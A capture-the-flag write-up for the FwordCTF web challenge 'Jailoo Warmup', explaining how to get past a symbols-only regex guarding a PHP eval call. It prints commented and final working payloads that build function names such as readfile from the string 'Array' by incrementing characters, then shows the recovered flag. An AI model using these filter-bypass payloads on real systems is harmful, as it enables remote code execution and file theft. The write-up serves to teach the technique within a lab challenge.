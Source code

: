 # Jailoo Warmup

## Web, 442 points

### Description

```
Get the flag in FLAG.PHP.

http://jailoowarmup.fword.wtf/
```
Source code is given and is at ./jailoo.php

### Solution

```php
    if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
        echo "<div class=\"success\">Command executed !</div>";
        eval($cmd);
```

What interests us from the source code is that we have an `eval` function call for our input if our input respects the regex `/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/`. `eval` function makes it possible to call a PHP function, hence a potential RCE here. At first, it reminded me from a Web challenge from [root-me.org](https://www.root-me.org), I had a lead: as we have to read a PHP file content, I thought directly of `file_get_contents`, `show_source` and `system` functions. We have to note that PHP functions are case insensitive.

The main idea is explained at [https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/) and I used a variation of his method 2 to solve this task. 

First, I was lazy and decided to start from my payload from the Root Me challenge. Here is my commented version payload, so you can compare with securityonline article and better understand:

```php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['_'=='[']; // $_=$_[0];
// $___=$_; // A
$___="";
$__=$_;
$__++;$__++;$__++;$__++;$__++; // F
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // I
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // L
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++; // E
$___.=$__; // append the variable
$__=$_; // reset the variable
$___.='_';

$__++;$__++;$__++;$__++;$__++;$__++; // G
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++; // E
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__; // append the variable
$__=$_; // reset the variable
$___.='_';

$__++;$__++; // C
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // N
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++; // E
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // N
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$___.=$__; // append the variable
$__=$_; // reset the variable

$____='"';
$__=$_;
$__++;$__++;$__++;$__++;$__++; // F
$____.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // L
$____.=$__; // append the variable
$__=$_; // reset the variable
$____.=$__; // A
$__++;$__++;$__++;$__++;$__++;$__++; // G
$____.=$__; // append the variable
$__=$_; // reset the variable
$____.="."; // .
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++; // H
$____.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__; // append the variable
$__=$_; // reset the variable
$____.='"'; // append '

$___($____); // FILE_GET_CONTENTS('FLAG.PHP')
```

I realized then that I had to remove characters such as `' @`. I crafted it manually for a time, discovered that FILE_GET_CONTENTS returned me an error, SHOW_SOURCE and SYSTEM as well. These functions were disabled. What a struggle. Finally we decided with SHRECS to automate the generation of the payload with a script, we should have done that from the beginning. Thanks to @face0xff for it.

Finally, after scripting, we remembered readfile function. Final payload is below:

```php
$___="";$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$___.=$_;$____="";$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$____.=$_;$______="";$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$______.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$______.=$_;$_=[];$_="$_";$_=$_["_"=="["];$______.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$______.=$_;$_=[];$_="$_";$_=$_["_"=="["];$______.=".";$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$______.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$______.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$______.=$_;$___($____($______));
```

Then we flag:

```php
   <div class="card-text">
   			<h3>RUN</h3>
   			<form action="" method="post">
			  <div class="form-group">
			    <textarea name="cmd" class="form-control" id="textarea" rows="4"></textarea>
			  </div>
			  <button type="submit" name="submit" class="btn btn-primary">execute</button>
			</form>
	</div>
	<div class="success">Command executed !</div>
    <!--?
    $flag="FwordCTF{Fr0m_3very_m0unta1ns1d3_l3t_fr33d0m_r1ng_MLK}";
    ?-->
```

### Script

Payload generator is at ./exploit.py.